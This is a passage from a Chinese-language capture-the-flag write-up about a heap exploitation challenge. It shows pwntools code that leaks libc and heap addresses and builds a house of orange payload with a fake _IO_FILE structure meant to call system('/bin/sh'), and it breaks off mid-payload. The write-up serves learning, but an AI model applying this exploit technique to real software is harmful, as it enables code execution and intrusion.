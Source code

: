 ![此时的堆](/images/1530184408297.png)

此时堆的情况如下，这样的话就可以leak出heap的基址了

```python
malloc_until(0x40, "\x00")
leak = show()
libc_addr = u64(leak[0:8]) - 0x3c4b00
heap_addr = u64(leak[8:16]) - 0x21090
assert (libc_addr & 0xfff) == 0 and (heap_addr & 0xfff) == 0
print hex(libc_addr)
print hex(heap_addr)
```

# 0x02 house of orange

接着就是unsorted bin实现house of orange，这个不具体说了，可以看看资料，注意那几个参数要设对。

有个坑就是`0x0106040f01130301`和`0x4000161302011409`还有后面一个`0`，一开始怎么都会segfault，一开始以为是malloc的问题，结果其实根本不是，是这两个数在全局变量区被覆盖而导致的，所以payload覆盖不能动它们。也就是这个时候我大概意识到了预期解是什么。。。

最后其实还有个问题，如果`malloc(0)`之后紧跟用来house of orange的`unsorted bin`，`system`的地址刚好跟那几个magic number重合。。。尴尬，所以要先再在0x20的chunk后面malloc一个chunk，然后再覆盖。。。

PS：我就在刚刚，写完这段话的时候，意识到把虚表位置改一下就能解决这个问题。。。看来是当时犯蠢了。。。

然后这又有问题，因为只能写`0xff`个字节，而`padding + sizeof _IO_FILE_plus`大于这个数，所以办法就是跨chunk分两次放。。。payload如下。。。

```python
# now
# pwndbg> x/4gx  0x55adbd120090
# 0x55adbd120090:	0x0000000000000000	0x0000000000000071
# 0x55adbd1200a0:	0x00007f78bb0d6b78	0x00007f78bb0d6b78
# in unsorted bin

malloc(0x50, "consume one chunk in small bin")
malloc(0x80, "\x00" * 40 + p64(heap_addr + 0x210e0 + 0x60) + "GGGGGGGG") # shift top chunk back
#放_mode与vtable地址
malloc(0x10, "\x00")
free()#放到fastbin里面
malloc(0x20, "\x00")#防止system地址和unsorted bin重合

system_addr = libc_addr + e.symbols["system"]
print hex(system_addr)
# 0x7fc08b121b78 - 0x7fc08ad5d000 = 0x3c4b78
# fake_file off = 0x55f21fe970b0 - 0x55f21fe76000 = 0x210b0
hso_fake_file = "/bin/sh\x00" + p64(0x61)
hso_fake_file += p64(libc_addr + 0x3c4b78)
```